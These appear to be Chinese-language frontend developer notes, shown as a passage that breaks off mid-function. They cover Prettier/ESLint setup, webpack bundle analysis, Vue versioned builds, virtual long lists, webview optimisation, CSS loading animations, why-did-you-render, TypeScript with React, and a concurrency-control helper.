一般和 eslint 还有 stylelint 配合的时候，让 prettier 处理风格，让 eslint 和 stylelint 处理 js 和 css 的错误和不合理之处。因为 eslint 和 stylelint 也可以处理风格，所以他们之间由于风格会出现冲突，所以需要 stylelint-config-prettier eslint-config-prettier 这两个插件来覆盖它们之间冲突的风格配置。
安装之后在 eslint 和 stylelint 的配置文件里加入 extends 字段。eslint 里在 extends 的数组里最后面加上 "prettier" 即可，stylelint 在 extends 的数组里最后面加上 "stylelint-config-prettier" 即可。
忽略文件
设置目录后 prettier 会自动处理不同后缀名的文件，有些不想处理的文件可以新建一个 .prettierignore 文件，然后在其中定义需要被忽略的文件和目录即可。
*.png
*.svg
*.gif
*.pem
*.mp3
*.ttf
*.woff
配置文件
配置文件可以使用以下几种：
- package.json 中的 prettier 字段
- 名为 .prettierrc 的 json 或 yaml 文件
- .prettierrc.json, .prettierrc.yml, .prettierrc.yaml, 或者 .prettierrc.json5
- 导出一个对象的 .prettierrc.js, .prettierrc.cjs, prettier.config.js, prettier.config.cjs 文件
- .prettierrc.toml 文件
常用规则
配置文件导出的对象里就是具体的 prettier 规则了：
module.exports = {
tabWidth: 2, // 设置 tab 缩进使用几个空格
useTabs: false, // 是否使用 tab 取代空格缩进
semi: true, // 语句结尾必须有分号
singleQuote: true, // 使用单引号还是双引号
quoteProps: "as-needed", // 对象属性名是否需要用引号
trailingComma: "es5", // 对象或数组或参数列表结尾是否要加上一个逗号
bracketSpacing: true, // 对象的花括号是否添加空格
arrowParens: "avoid", // 箭头函数是否省略参数的圆括号
vueIndentScriptAndStyle: false // vue 单文件组件中的 script 和 style 标签的代码是否需要整体缩进
}
webpack-bundle-analyzer
概念
webpack-bundle-analyzer 插件可以将 webpack 编译输出的文件视觉化成一个可以交互和缩放的树状图。用来分析打包后的文件大小和包含的模块，然后可以帮助你做进一步优化。
yarn add -D webpack-bundle-analyzer
使用的时候在 webpack 配置中添加到 plugins 里就可以了
const BundleAnalyzerPlugin = require('webpack-bundle-analyzer').BundleAnalyzerPlugin;
module.exports = {
plugins: [
new BundleAnalyzerPlugin()
]
}

和 externals 配合优化项目
externals 用来告诉 Webpack 要构建的代码中使用了哪些不用被打包的模块，这些模块可以是通过外部环境（如 CDN）引入的。
通过 webpack-bundle-analyzer 的分析，可以很容易找到项目打包文件中最大的第三方模块，然后将其设置到 externals 里，然后从 CDN 引入。
下面是正常引入 view-design 库时的分析图：

下面是将 view-design 和 vue 提取到 cdn 引入后的分析图：

这两个都是开发环境下的分析，可以看到将文件提取出去 cdn 引入后，对 chunk-vendors.js 文件的大小影响是非常大的。
vue+nodejs配置多版本打包
history
前端路由 vue-router 使用 history 模式
const router = new VueRouter({
mode: 'history'
});
webpack 打包的时候输出路径和 publicPath 配置上对应的版本号，版本号可以放 vue 项目的 .env 文件里，然后用 process.env.VERSION 来获取
module.exports = {
publicPath: `/${process.env.VERSION}/`,
outputDir: resolve(`../server/app/public/${process.env.VERSION}`),
}
node 层收到请求返回页面的时候根据请求路径提取出版本号然后找到对应版本号路径下的 html 文件：
class HomeController extends Controller {
async index() {
const { ctx } = this;
const version = Number(ctx.request.url.split('/')[1]);
const indexPath = version ? `../public/${version}/index.html` : '../public/index.html'
const dir = path.resolve(__dirname, indexPath);
const html = fs.readFileSync(dir);
ctx.body = html.toString();
}
}
然后访问页面地址为以下即可：
http://127.0.0.1:7001/5.3.15/message
// 5.3.15 是不同的版本号
hash
前端路由 vue-router 使用 hash 模式
const router = new VueRouter({
mode: 'hash'
});
webpack 打包的时候输出路径和 publicPath 配置上对应的版本号
module.exports = {
publicPath: `/${version}/`,
outputDir: resolve(`../server/app/public/${version}`),
}
然后 node 端返回页面的时候返回默认的 public/index.html 就可以了不需要改动，只是不同版本访问页面的时候将访问地址修改即可：
http://127.0.0.1:7001/5.3.15/index.html#message
// 5.3.15 是不同的版本号
点击空白处关闭弹框
<body>
<button type="button" class="clickBtn">点击我</button>
<div id="mask">
<p class="title">提示</p>
<p>
<span class="area-content">这是一个弹框</span>
<a href="javascript:;">跳转</a>
</p>
</div>
<script type="text/javascript">
document.querySelector('.clickBtn').addEventListener('click', () => {
document.querySelector('#mask').style.display = 'block';
setTimeout(() => {
window.addEventListener('click', hides, false);
}, 0);
});
function hides(e) {
document.querySelector('#mask').style.display = 'none';
window.removeEventListener('click', hides, false);
}
document.querySelector('#mask').addEventListener('click', e => {
e.stopPropagation();
});
</script>
</body>
如何进行技术选型
- 符合项目要求的框架，兼容范围，满足现在，兼顾未来，不可太过追求复杂，过度设计。
- B 端项目业务比较重，侧重点是开发效率，稳定性和长期的可维护性，选用成熟的技术栈。
- C 端业务注重用户体验，开发过程中性能需要注意
- 简单的单页面，要求快速发布，可以适当放松标准，使用 jQuery 也可
- 官方文档是否齐全，社区的活跃度，是不是经常维护
- 迁移的成本
- 商业化的项目，要考虑法律问题
- 组员的掌握程度，学习的难易程度
长列表优化
content-visibility
content-visibility 属性有三个可选值:
- visible: 默认值。对布局和呈现不会产生什么影响。
- hidden: 元素跳过其内容的呈现。用户代理功能（例如，在页面中查找，按 Tab 键顺序导航等）不可访问已跳过的内容，也不能选择或聚焦。类似于对其内容设置了 display: none 属性。
- auto: 对于用户可见区域的元素，浏览器会正常渲染其内容；对于不可见区域的元素，浏览器会暂时跳过其内容的呈现，等到其处于用户可见区域时，浏览器在渲染其内容。
将长列表中的元素都设置 css 样式 content-visibility: auto; 即可完成优化。
常规方法优化长列表（只加载可视区域数据）
先进行 10000 的长列表创建和插入
<ul id="container"></ul>
<script>
let total = 100000;
let container = document.getElementById("container")
for (let i = 0; i < total; i++) {
let li = document.createElement("li");
li.innerHTML = i;
container.appendChild(li)
}
</script>
这样循环创建和插入会非常慢，会卡顿，白屏时间变长
使用 DocumentFragment 和 requestAnimationFrame 进行优化
<ul id="container"></ul>
<script>
let total = 100000;
let container = document.getElementById("container")
let timer = Date.now();
let index = 0;
let id = 0;
function load() {
index += 50;
if (index < total) {
requestAnimationFrame(() => {
let fragment = document.createDocumentFragment();
for (let i = 0; i < 50; i++) {
let li = document.createElement("li");
li.innerHTML = i
fragment.appendChild(li)
}
container.appendChild(fragment)
load();
},0)
}
}
load();
</script>
用 DocumentFragment 和 requestAnimationFrame 优化后，虽然白屏时间短了，但是页面还是有卡顿的情况，并且开启开发者工具后会卡住，因为操作太多要等很长时间。
所以可以使用只渲染可视区域内的数据来优化长列表。
<!-- App.vue -->
<template>
<div id="app">
<virtalList :size=40 :remain=8 :items="items" :varlable=true>
<template v-slot="item">
<div class="list-item">{{item.item.id + item.item.value}}</div>
</template>
</virtalList>
</div>
</template>
<script>
import Mock from 'mockjs'
import virtalList from './virtalList.vue'
// size: Number, //当前每一项的高度
// remain: Number, //可见多少个
// items: Array, //当前项目
export default {
name: 'App',
data() {
return {
items: []
}
},
components: {
virtalList
},
created() {
let items = [];
for (var i = 0; i < 500; i++) {
items.push({
id: i,
value: Mock.Random.sentence(5,50)}
);
}
this.items = items;
}
}
</script>
<!-- virtalList -->
<template>
<div class="viewport" ref="viewport" @scroll="handlScroll">
<div class="scroll-bar" ref="scrollbar"></div>
<div class="scroll-list" :style="{transform:`translate(0,${offset}px)`}">
<div v-for="item in visibleData" ref="items" :key="item.id" :vid="item.id">
<slot :item="item"></slot>
</div>
</div>
</div>
</template>
<script>
// size: Number, //当前每一项的高度
// remain: Number, //可见多少个
// items: Array, //当前项目
export default {
props: {
items: Array,
remain: Number,
size: Number
},
data() {
return {
start: 0,
end: 0,
offset: 0
}
},
computed: {
// prevCount nextCount 可视区域的前面几项和后面几项多加载出来，防止滚动时出现空白
prevCount() {
return Math.min(this.start, this.remain);
},
nextCount() {
return Math.min(this.remain, this.items.length - this.end);
},
visibleData() {
let start = this.start - this.prevCount;
let end = this.end + this.nextCount;
return this.items.slice(start, end);
},
},
methods: {
handlScroll() {
// viewport 的滚动条滚动的时候，去通过 transform translate 改变 scroll-list 元素的 y 轴的位置
let scrollTop = this.$refs.viewport.scrollTop;
this.start = Math.floor(scrollTop / this.size); // 列表开始的位置等于 滚动的位置 / 列表的高度
this.end = this.start + this.remain; // 要渲染列表结束的位置等于列表开始的位置加上每一页数据条数
this.offset = this.start * this.size - this.prevCount * this.size; // 计算 scroll-list 的 y 轴偏移
}
},
mounted() {
// 每一项 40 高度，最少看到 8 项，所以设置 viewport 列表高度为 40 * 8
this.$refs.viewport.style.height = this.size * this.remain + "px";
// 设置 scrollbar 元素高度为完整数据列表的长度，它的作用是将 viewport 撑开，使得滚动条是可滚动的
this.$refs.scrollbar.style.height = this.items.length * this.size + "px";
}
}
</script>
<style lang="scss" scoped>
.viewport {
overflow-y: scroll;
position: relative;
}
.scroll-list {
position: absolute;
top: 0;
left: 0;
width: 100%;
height: 100%;
}
.list-item {
height: 40px;
overflow: hidden;
border: 1px solid #000;
}
</style>
webview 加载优化
h5 页面的体验问题
从用户角度，相比原生页面，h5 页面的体验问题主要有两点：
- 页面打开时间慢：打开一个 h5 页面需要做一系列处理，会有一段白屏时间，体验糟糕。
- 响应流畅度较差：由于 WebKit 的渲染机制，单线程，历史包袱等原因，页面刷新/交互的性能体验不如原生。
所以就需要解决白屏时间
webview 打开页面
- 页面渲染之前耗时主要在两部分：初始化 Webview 和 数据请求（html, css, js）。在这两步完成之前用户看到的都是白屏
- First Paint 是浏览器在导航之后首次渲染的时间，它不包括默认的背景渲染，但是包含了非默认的背景渲染。可以理解为这个时间就是白屏结束的时间点。
- First Contentful Paint 浏览器首次渲染任意 文本，图片，或者非白色的 canvas 和 svg 的时间点。这个时间点是用户首次可以开始看到页面的内容。
- 优化的方面包括：
- 降低请求量：合并资源，减少 HTTP 请求数，minify/gzip 压缩，webP 图片格式，lazyLoad。
- 加快请求速度：预解析 DNS，减少域名数，并行加载，CDN 分发。
- 缓存：HTTP 协议缓存请求，离线缓存 manifest，离线数据缓存 localStorage。
- 渲染：JS/CSS优化，加载顺序，服务端渲染。
优化方案
trick 方案（不建议）
- 预初始化 Webview。首次初始化 Webview，需要初始化浏览器内核，需要的时间在 400ms 这个量级；二次初始化时间在几十ms 这个量级。根据此特征，选择在 APP 启动后 X 秒，预创建(初始化)一个 Webview 然后释放，这样等使用到 h5 模块，再加载 Webview 时，加载时间也少了不少。
- 预创建 Webview 并加载首页 h5，驻留在内存中，需要的时候，立刻显示
离线包方案（建议）
- 将每个独立的 h5 功能模块，相关 HTML、Javascript、CSS 等页面内静态资源打包到一个压缩包内，客户端可以下载该离线包到本地，然后打开 Webview，直接从本地加载离线包，从而最大程度地摆脱网络环境对 h5 页面的影响。
- 后端使用构建工具把同一个业务模块相关的页面和资源打包成一个文件，同时对文件加密/签名。
- 客户端根据配置表，在自定义时机去把离线包拉下来，做解压/解密/校验等工作。
- 根据配置表，打开某个业务时转接到打开离线包的入口页面。
- 拦截网络请求，对于离线包已经有的文件，直接读取离线包数据返回，否则走 HTTP 协议缓存逻辑。
- 离线包更新时，根据版本号后台下发两个版本间的 diff 数据，客户端合并，增量更新。
css 实现 loading 动画
菊花图案的 loading 动画
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
<style>
.spin-box {
width: 48px;
height: 48px;
position: relative;
}
.spin-box .circle {
width: 100%;
height: 100%;
position: absolute;
left: 0;
top: 0;
}
.spin-box .circle:before {
content: '';
display: block;
margin: 0 auto;
width: 10%;
height: 30%;
background-color: rgba(0, 111, 255, 1);
border-radius: 30%;
animation: circleFadeDelay 1.2s infinite ease-in-out both;
animation-delay: -1.1s;
}
.spin-box .circle2 {
transform: rotate(45deg);
}
.spin-box .circle2:before {
background-color: rgba(0, 111, 255, 0.9);
animation-delay: -1.0s;
}
.spin-box .circle3 {
transform: rotate(90deg);
}
.spin-box .circle3:before {
background-color: rgba(58, 106, 169, 0.8);
animation-delay: -0.9s;
}
.spin-box .circle4 {
transform: rotate(135deg);
}
.spin-box .circle4:before {
background-color: rgba(0, 111, 255, 0.7);
animation-delay: -0.8s;
}
.spin-box .circle5 {
transform: rotate(180deg);
}
.spin-box .circle5:before {
background-color: rgba(0, 111, 255, 0.6);
animation-delay: -0.7s;
}
.spin-box .circle6 {
transform: rotate(225deg);
}
.spin-box .circle6:before {
background-color: rgba(0, 111, 255, 0.6);
animation-delay: -0.6s;
}
.spin-box .circle7 {
transform: rotate(270deg);
}
.spin-box .circle7:before {
background-color: rgba(0, 111, 255, 0.5);
animation-delay: -0.5s;
}
.spin-box .circle8 {
transform: rotate(315deg);
}
.spin-box.circle8:before {
background-color: rgba(0, 111, 255, 0.4);
animation-delay: -0.4s;
}
@-webkit-keyframes circleFadeDelay {
0%, 39%, 100% { opacity: 0; }
40% { opacity: 1; }
}
@keyframes circleFadeDelay {
0%, 39%, 100% { opacity: 0; }
40% { opacity: 1; }
}
</style>
</head>
<body>
<div class="spin-box">
<div class="circle"></div>
<div class="circle circle2"></div>
<div class="circle circle3"></div>
<div class="circle circle4"></div>
<div class="circle circle5"></div>
<div class="circle circle6"></div>
<div class="circle circle7"></div>
<div class="circle circle8"></div>
</div>
</body>
</html>
-
原理是先创建 9 个 div，对应 9 个花瓣，然后给 9 个 div 设置 before 伪元素，这个伪元素就是花瓣，写好花瓣的样式后，9 个伪元素是重叠在一起的，然后给 2 - 9 的花瓣分别设置不同角度的 transform: rotate(prev + 45deg); 样式，每一个花瓣都绕中心旋转比上一个花瓣多 45 度，这样就形成了一朵花的形状。然后设置动画帧，0% 39% 100% 的时候 opacity 都是 0，也就是看不见，而 40% 的时候 opacity 是 1，说明花瓣先快速出现，然后再缓慢消失。
-
animation: circleFadeDelay 1.2s infinite ease-in-out both;
.div { animation-name: circleFadeDelay; /* 使用 circleFadeDelay 动画帧 */ animation-duration: 1.2s; /* 动画持续时间 */ animation-iteration-count: infinite; /* 动画反复播放次数 infinite 无数次 */ animation-timing-function: ease-in-out; /* 动画的速度曲线 ease-in-out 加速后减速 */ animation-fill-mode: both; /* animation-fill-mode 填充模式 forwards：当动画完成后，保持最后一个属性值（在最后一个关键帧中定义）。 backwards：在 animation-delay 所指定的一段时间内，在动画显示之前，应用开始属性值（在第一个关键帧中定义）。 both：向前和向后填充模式都被应用。 */ } -
然后再设置不同花瓣不同的 animation-delay 动画开始前的延迟时间，使得每个花瓣的闪现是依次进行的即可
琴键长短变化 loading 动画
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
<style>
.loading-box {
display: flex;
justify-content: space-between;
align-items: center;
height: 90px;
width: 80px;
}
.loading-box .key {
width: 15px;
height: 50px;
margin-left: 8px;
background-color: #67C1F5;
animation: keyHeightScale 1.2s infinite ease-in-out both;
}
.loading-box .key2 {
animation-delay: 0.2s;
}
.loading-box .key3 {
animation-delay: 0.4s;
}
@keyframes keyHeightScale {
0%, 100%{
height: 50px;
}
50% {
height: 80px;
}
}
</style>
</head>
<body>
<div class="loading-box">
<div class="key key1"></div>
<div class="key key2"></div>
<div class="key key3"></div>
</div>
</body>
</html>
使用 why-did-you-render 检查多余的重复渲染
why-did-you-render 插件可以帮助发现 react 项目中潜在的可避免的重复渲染。
安装
npm install @welldone-software/why-did-you-render --save-dev
yarn add --dev @welldone-software/why-did-you-render
- 手动引入
- 创建一个 wdyr.js 并且将它作为整个应用的第一个文件 import。
// wdyr.js import React from 'react'; if (process.env.NODE_ENV === 'development') { const whyDidYouRender = require('@welldone-software/why-did-you-render'); whyDidYouRender(React, { trackAllPureComponents: true, }); } - 使用 wdyr-webpack-plugin 引入
// webpack.config.js const WdyrWebpackPlugin = require('wdyr-webpack-plugin'); module.exports = { plugins: [ new WdyrWebpackPlugin({ enable: process.env.NODE_ENV === 'development', trackAllPureComponents: true, // other options }) ] }
注意：永远不要在生产环境使用 why-did-you-render ，因为它会使 react 变慢。
用法
-
如果设置了
trackAllPureComponents: true，那么所有的纯组件（React.PureComponent 和 React.memo）将会被此插件追踪。否则，你需要自己手动在你想要追踪的组件（类组件或函数组件）添加 whyDidYouRender 属性，值为 true 即可。（例如 MyComponent.whyDidYouRender = true）。 -
插件启用后，当页面渲染或者交互的时候，如果存在不必要的 re-render，控制台就会出现提示，如下图所示：
 这里出现的问题是 state 的值并未改变但是因为是引用类型所以造成了 re-render。根据这样的提示可以方便定位代码中的位置，然后一个一个解决，知道不再出现提示。
这里出现的问题是 state 的值并未改变但是因为是引用类型所以造成了 re-render。根据这样的提示可以方便定位代码中的位置，然后一个一个解决，知道不再出现提示。
比较常见的问题是 state 变了但是值和之前相等，或者 props 变化了但是值和之前的相等。
const App = () => {
const [something, setSomething] = useState({a: 1});
return (
<>
<button onClick={() => setSomething({a: 1})}>change</button>
</>
);
}
上面这个例子 something 初始值是对象 {a: 1}，调用 setSomething 设置新值还是 {a: 1}，虽然值相等，但是是一个新对象，因此造成了一次 re-render

因此这个插件最大的意义就是发现值相等，但是传递的 state 或 props 是新对象而造成的 re-render。而必然会发生 re-render 的情况它是不会提示的，所以代码中其他的不合理的 re-render 就需要自己写代码的时候多加注意了。
typescript 基础
使用 type
-
可以定义一个
type确保函数的入参和返回值是正确的类型：type Todo = { id: number text: string done: boolean } // Make sure that the input and the output // are of the correct type (both must be Todo) function toggleTodo(todo: Todo): Todo { // ... } -
使用
readonly关键字确保对象的属性不会被修改：type Todo = { readonly id: number readonly text: string readonly done: boolean } function toggleTodo(todo: Todo): Todo { // This won’t compile todo.done = !todo.done return todo }这一点在 react 这样的框架中很有用，因为一般改变 state 都需要生成新的对象，而不是直接改变原来的对象
-
可以使用映射类型（
mapped types）将一个type转变成另一个type// Readonly<...> makes each property readonly type Todo = Readonly<{ id: number text: string done: boolean }>
处理数组和字面类型（literal types）
- 通过给某一个类型后面添加
[]来指定一个数组类型，还可以将它设置成只读的function completeAll( todos: readonly Todo[] ): CompletedTodo[] { // ... } - 可以使用字面类型（literal types）指定某个属性必须是某个确定的值
type CompletedTodo = Readonly<{ id: number text: string done: true }> - 可以通过交叉类型（intersection types）来复写某些属性以去除重复代码
type Todo = Readonly<{ id: number text: string done: boolean }> // Override the done property of Todo type CompletedTodo = Todo & { readonly done: true }
联合类型（union types）
- 可以使用
A | B的语法创建联合类型，表示一种类型是 A 或者 Btype Place = 'home' | 'work' | { custom: string } - 在属性名后加问好使其成为可选属性
type Todo = Readonly<{ id: number text: string done: boolean // place is optional place?: Place }>
理解泛型
- 泛型的概念有点像普通的函数参数，只是它处理的是 type
// 声明一个泛型函数
function genericFunc<T>() {
// 在这里使用 T 类型
}
// 调用的时候，T 类型就是 number
genericFunc<number>()
- 泛型还可以指定哪些类型是泛型允许的
// 限制泛型 T 只能是 number
function genericFunc<T extends number>()
// Success
genericFunc<number>()
// Error
genericFunc<string>()
- 还可以指定泛型的默认值
// 设置泛型 T 的默认值是 number
function genericFunc<T = number>()
// 调用时不传泛型参数则默认泛型是 number
genericFunc()
-
泛型用的大写字母一般用描述它的单词的首字母，例如
- S (for “S”tate)
- T (for “T”ype)
- E (for “E”lement)
- K (for “K”ey)
- V (for “V”alue)
-
泛型可以接收多个参数，并且后续的参数的允许范围可以使用之前的泛型类型
// The second parameter S must be either
// boolean or whatever was specified for F
function makePair<
F extends number | string,
S extends boolean | F
>()
// These will work
makePair<number, boolean>()
makePair<number, number>()
makePair<string, boolean>()
makePair<string, string>()
// This will fail because the second
// parameter must extend boolean | number,
// but instead it’s string
makePair<number, string>()
- 可以创建泛型接口或者泛型类型别名，以达到复用
// Extract into a generic interface
// to make it reusable
interface Pair<A, B> {
first: A
second: B
}
// Extract into a generic type alias. It’s
// basically identical to using an interface
type Pair<A, B> = {
first: A
second: B
}
function makePair<F, S>() {
// Usage: Pass F for A and S for B
let pair: Pair<F, S>
// ...
}
断言（type assertions）
有些时候可能 typescript 不知道某个值是什么类型，比如使用 document.getElementById 获取某个 html 元素的时候，typescript 只知道会返回 HTMLElement，但是不知道具体的类型，这时候就可以使用断言，来指定更明确的类型。
const myCanvas = document.getElementById('main_canvas') as HTMLCanvasElement;
除了上面 as 语法，还可以使用尖括号的语法，是等价的
const myCanvas = <HTMLCanvasElement>document.getElementById("main_canvas");
枚举（enum）
枚举允许定义一组起了名字的常量，支持数字枚举和字符串枚举。
- 数字枚举
enum Direction {
Up = 1,
Down,
Left,
Right,
}
第一个常量从 1 开始，后面的常量依次自增 1。如果不设置第一个从 1 开始，默认从 0 开始
enum UserResponse {
No = 0,
Yes = 1,
}
function respond(recipient: string, message: UserResponse): void {
// ...
}
respond("Princess Caroline", UserResponse.Yes);
- 字符串枚举
enum Direction {
Up = "UP",
Down = "DOWN",
Left = "LEFT",
Right = "RIGHT",
}
typescript react 最佳实践
tsconfig.json
{
"compilerOptions": {
"target": "es5", // 指定ECMAScript目标版本
"lib": [
"dom",
"dom.iterable",
"esnext"
], // 要包含在编译中的库文件列表
"allowJs": true, // 允许编译JavaScript文件
"skipLibCheck": true, // 跳过所有声明文件的类型检查
"esModuleInterop": true, // 禁用命名空间导入(import * as fs from "fs") ，并启用CJS/AMD/UMD风格导入(import fs from "fs")
"allowSyntheticDefaultImports": true, // 允许从没有默认导出的模块中进行默认导入
"strict": true, // 启用所有严格类型检查选项
"forceConsistentCasingInFileNames": true, // 禁止对同一文件使用大小写不一致的引用。
"module": "esnext", // 指定模块代码生成
"moduleResolution": "node", // 使用Node.js风格解析模块
"isolatedModules": true, // 无条件地发出未解析文件的导入
"resolveJsonModule": true, // 包括以.json扩展名导入的模块
"noEmit": true, // 不输出结果(意思是不编译代码，只执行类型检查)
"jsx": "react", // Support JSX in .tsx files
"sourceMap": true, // 生成相应的.map文件
"declaration": true, // 生成相应的.d.ts文件
"noUnusedLocals": true, // 报告未使用的局部变量的错误
"noUnusedParameters": true, // 报告未使用参数的错误
"incremental": true, // 通过从先前的编译中读取/写入磁盘上的文件来启用增量编译
"noFallthroughCasesInSwitch": true // 报告switch语句中不可命中情况的错误
},
"include": [
"src/**/*" // *** 需要做类型检查的文件 ***
],
"exclude": ["node_modules", "build"] // *** 避免检查类型的文件 ***
}
引入 React
以下这种方式最可靠，因为未来可能会放弃默认导出的方式
import * as React from 'react'
import * as ReactDOM from 'react-dom'
另外一种就是如下
import React from 'react'
import ReactDOM from 'react-dom'
需要 tsconfig.json 添加额外的配置："allowSyntheticDefaultImports": true
props
常用 props 类型
type AppProps = {
message: string;
count: number;
disabled: boolean;
/** array of a type! */
names: string[];
/** string literals to specify exact string values, with a union type to join them together */
status: "waiting" | "success";
/** an object with any number of properties (PREFERRED) */
obj3: {
id: string;
title: string;
};
/** array of objects! (common) */
objArr: {
id: string;
title: string;
}[];
/** a dict object with any number of properties of the same type */
dict1: {
[key: string]: MyTypeHere;
};
dict2: Record<string, MyTypeHere>; // equivalent to dict1
/** function that doesn't take or return anything (VERY COMMON) */
onClick: () => void;
/** function with named prop (VERY COMMON) */
onChange: (id: number) => void;
/** function type syntax that takes an event (VERY COMMON) */
onChange: (event: React.ChangeEvent<HTMLInputElement>) => void;
/** alternative function type syntax that takes an event (VERY COMMON) */
onClick(event: React.MouseEvent<HTMLButtonElement>): void;
/** an optional prop (VERY COMMON!) */
optional?: OptionalType;
};
export declare interface AppProps {
children1: JSX.Element; // bad, doesnt account for arrays
children2: JSX.Element | JSX.Element[]; // meh, doesn't accept strings
children3: React.ReactChildren; // despite the name, not at all an appropriate type; it is a utility
children4: React.ReactChild[]; // better, accepts array children
children: React.ReactNode; // best, accepts everything (see edge case below)
functionChildren: (name: string) => React.ReactNode; // recommended function as a child render prop type
style?: React.CSSProperties; // to pass through style props
onChange?: React.FormEventHandler<HTMLInputElement>; // form events! the generic parameter is the type of event.target
// more info: https://react-typescript-cheatsheet.netlify.app/docs/advanced/patterns_by_usecase/#wrappingmirroring
props: Props & React.ComponentPropsWithoutRef<"button">; // to impersonate all the props of a button element and explicitly not forwarding its ref
props2: Props & React.ComponentPropsWithRef<MyButtonWithForwardRef>; // to impersonate all the props of MyButtonForwardedRef and explicitly forwarding its ref
}
函数组件
经常可以看到代码中这样定义函数组件：
const App: React.FunctionComponent<{ message: string }> = ({ message }) => (
<div>{message}</div>
);
而当前已经不建议使用 React.FunctionComponent 或简写 React.FC。它与普通的函数的写法有以下区别：
- React.FC 会显示定义返回类型，而普通函数是隐式定义的
- React.FC 会对静态属性进行类型检查和自动补全（例如
displayName,propTypes,defaultProps），而普通函数不会。React.FC 使用defaultProps存在已知问题 - React.FC 提供了
children的隐式定义，这存在一些已知问题 - 未来 React.FC 可能会自动将 props 标记成 readonly
不建议使用 React.FC 的原因：
- 提供了
children的隐式定义。这意味这所有组件都将接受children，即使它们本不应该接收children - 不支持泛型。
- 例如，可以这样定义一个泛型组件：
但是使用 React.FC 后就不行了，无法保证 React.FC 返回的泛型 Ttype GenericComponentProps<T> = { prop: T callback: (t: T) => void } const GenericComponent = <T>(props: GenericComponentProps<T>) => {/*...*/}const GenericComponent: React.FC</* ??? */> = <T>(props: GenericComponentProps<T>) => {/*...*/} - 使命名空间组件的写法变得别扭
// use React.FC
const Select: React.FC<SelectProps> & { Item: React.FC<ItemProps> } = (props) => {/* ... */ }
Select.Item = (props) => { /*...*/ }
// don't use
const Select = (props: SelectProps) => {/* ... */}
Select.Item = (props: ItemProps) => { /*...*/ }
- defaultProps 存在问题
type ComponentProps = { name: string; }
const Component = ({ name }: ComponentProps) => (<div>
{name.toUpperCase()} /* Safe since name is required */
</div>);
Component.defaultProps = { name: "John" };
const Example = () => (<Component />) /* Safe to omit since name has a default value */
如果这时候 name 是可选的，使用 React.FC<{name?: string}> 就会使 name.toUpperCase() 报错
hook
useState
默认情况下，会自动推导 state 的类型
const [val, toggle] = React.useState(false);
// 推导为 boolean
如果想要显式设置类型，则可以使用联合类型
const [user, setUser] = React.useState<IUser | null>(null);
如果 state 声明后会立马赋值，也可以使用断言
const [user, setUser] = React.useState<IUser>({} as IUser);
这样会暂时骗过编译器 {} 是 IUser 类型，后续你需要给 state 设置一个值，否则后续会产生错误
useEffect
useEffect 需要注意回调函数的返回值只能是函数或者 undefined。当使用箭头函数的时候可能会忽视这个问题
function DelayedEffect(props: { timerMs: number }) {
const { timerMs } = props;
useEffect(
() =>
setTimeout(() => {
/* do stuff */
}, timerMs),
[timerMs]
);
// bad example! setTimeout implicitly returns a number
// because the arrow function body isn't wrapped in curly braces
return null;
}
useRef
useRef 返回一个引用，它是只读的或者可变的。
- DOM 元素引用
传入元素类型作为其类型参数，null 作为初始值。这时候 userRef 返回的对象将是一个 readonly 的属性 current。
function Foo() {
// - If possible, prefer as specific as possible. For example, HTMLDivElement
// is better than HTMLElement and way better than Element.
// - Technical-wise, this returns RefObject<HTMLDivElement>
const divRef = useRef<HTMLDivElement>(null);
useEffect(() => {
// Note that ref.current may be null. This is expected, because you may
// conditionally render the ref-ed element, or you may forgot to assign it
if (!divRef.current) throw Error("divRef is not assigned");
// Now divRef.current is sure to be HTMLDivElement
doSomethingWith(divRef.current);
});
// Give the ref to an element so React can manage it for you
return <div ref={divRef}>etc</div>;
}
- 可变值引用
提供你自定义的类型，初始值保证和这个类型对应即可
function Foo() {
// Technical-wise, this returns MutableRefObject<number | null>
const intervalRef = useRef<number | null>(null);
// You manage the ref yourself (that's why it's called MutableRefObject!)
useEffect(() => {
intervalRef.current = setInterval(...);
return () => clearInterval(intervalRef.current);
}, []);
// The ref is not passed to any element's "ref" prop
return <button onClick={/* clearInterval the ref */}>Cancel timer</button>;
}
useMemo useCallback
下面是 useMemo useCallback 的官方定义
function useCallback<T extends (...args: any[]) => any>(callback: T, deps: DependencyList): T;
function useMemo<T>(factory: () => T, deps: DependencyList | undefined): T;
因此，useCallBack 使用时需要使用泛型参数指定 callback 的参数的类型，否则就是 any；useMemo 使用的时候可以通过泛型参数指定返回值的类型
const handleChange = React.useCallback<React.ChangeEventHandler<HTMLInputElement>>(evt => {console.log(evt.target.value)}, []);
const result = React.useMemo<number>(() => 2, []);
并发控制
/**
* 通用并发控制函数
* @param {Array} tasks - 任务数组，每个任务是一个返回Promise的函数
* @param {number} concurrency - 最大并发数
* @returns {Promise} - 当所有任务完成时解析的Promise
*/
async function concurrentControl(tasks, concurrency = 4) {
const results = new Array(tasks.length);
let index = 0;
let completed = 0;
return new Promise((resolve) => {
// 创建指定数量的工作线程
const workers = Array(Math.min(concurrency, tasks.length))
.fill()
.map(async () => {
while (index < tasks.length) {
const currentIndex = index++;
try {
// 执行当前任务并存储结果
results[currentIndex] = await tasks[currentIndex]();
} catch (error) {
// 存储错误信息
results[currentIndex] = error;
} finally {
// 任务完成计数
if (++completed === tasks.length) {
resolve(results);
}
}
}
});
// 等待所有工作线程完成
Promise.allSettled(workers);
});
}
/**
* 通用并发控制函数（带错误重试）
* @param {Array} tasks - 任务数组，每个任务是一个返回Promise的函数
* @param {number} concurrency - 最大并发数
* @param {number} maxRetries - 每个任务的最大重试次数
* @returns {Promise} - 当所有任务完成时解析的Promise，包含所有结果
*/
async function concurrentControlWithRetry(
tasks,
concurrency = 4,
maxRetries = 3
) {
const results = new Array(tasks.length);
let index = 0;
let completed = 0;
return new Promise((resolve) => {
// 创建工作线程
const workers = Array(Math.min(concurrency, tasks.length))
.fill()
.map(async () => {
while (index < tasks.length) {
const currentIndex = index++;
let retries = 0;
let lastError;
// 执行带重试的任务
while (retries <= maxRetries) {
try {
results[currentIndex] = await tasks[currentIndex]();
break; // 成功后跳出重试循环
} catch (error) {
lastError = error;
console.warn(
`Task ${currentIndex} failed (attempt ${
retries + 1
}/${maxRetries}):`,
error.message
);
retries++;
if (retries > maxRetries) {
